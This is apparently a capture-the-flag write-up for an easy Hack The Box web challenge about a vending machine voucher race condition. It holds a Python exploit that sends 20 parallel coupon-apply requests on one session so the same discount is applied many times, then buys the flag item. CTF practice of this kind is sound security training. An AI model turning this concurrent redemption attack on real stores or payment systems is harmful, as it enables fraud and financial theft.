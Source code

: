 ## **HTB** 
### **Difficult:** easy
### **Type:** Race condition
___
### **Description:**
Having missed the flight as you walk down the street, a wild vending machine appears in your way. You check your pocket and there it is, yet another half torn voucher coupon to feed to the consumerism. You start wondering why should you buy things that you don't like with the money you don't have for the people you don't like. You're Jack's raging bile duct.

Author: Rayhan0x01
___

### **Vulnerable code:** ###
![](1.png)
### **Exploit:** ###
```python
import requests
from multiprocessing import Process

url = "http://167.172.55.94:31451"
purchase_endpoint = "/api/purchase"
coupon_endpoint = "/api/coupons/apply"

purchase_A1 = {"item": "A1"}
purchase_C8 = {"item": "C8"}
coupon_data = {"coupon_code": "HTB_100"}

def request_coupon(cookie):
    requests.post(url=url+coupon_endpoint, data=coupon_data, cookies=cookie)


while (1):
    response = requests.post(url=url+purchase_endpoint, data=purchase_A1)
    cookie = {
        "session": response.cookies['session']
    }
    processes = []
    for i in range(20):
        new_process = Process(target=request_coupon, args=(cookie, ))
        processes.append(new_process)
    
    for process in processes:
        process.start()
    for process in processes:
        process.join()
    
    response = requests.post(url=url+purchase_endpoint, data=purchase_A1, cookies=cookie)
    print("Show balance: ", response.text)

    response = requests.post(url=url+purchase_endpoint, data=purchase_C8, cookies=cookie)
    print("Flag? :", response.text)
```